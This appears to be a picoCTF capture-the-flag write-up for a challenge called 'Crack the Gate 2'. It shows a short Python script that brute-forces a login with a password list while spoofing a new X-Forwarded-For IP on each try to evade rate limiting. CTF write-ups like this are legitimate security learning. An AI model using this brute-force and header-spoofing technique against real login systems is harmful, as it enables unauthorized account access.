

# Crack the Gate 2

## Description

The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret. The website is running here. Can you try to log in?. Download the passwords list here.

## Solution

I noticed it was a simple login form that accepted an email and a password. We are given teh email and a list of passwords to try. So I decided to use Burp Suite to automate the login attempts.

I recieved 'too many failed attempts'.



I noticed that if I add a custom header `X-Forwarded-For` with a random IP address, I could bypass the rate-limiting.

I created a python script to automate the login attempts with different passwords and a random IP address for each attempt.

```python
import requests

passwords = open("passwords.txt", "r").read().strip().split("\n")
base_ip = "1.1.1.1"
for x in passwords:
    # Modify the last octet of the IP address to generate a new IP
    last_octet = int(base_ip.split('.')[-1]) + 1
    random_ip = '.'.join(base_ip.split('.')[:-1] + [str(last_octet)])
    base_ip = random_ip
    
    response = requests.post('http://amiable-citadel.picoctf.net:52459/login', data={'email': 'ctf-player@picoctf.org', 'password': x}, headers={'X-Forwarded-For': random_ip})
    print(f'Trying password: {x} with IP: {random_ip}')
    print(response.json())
```
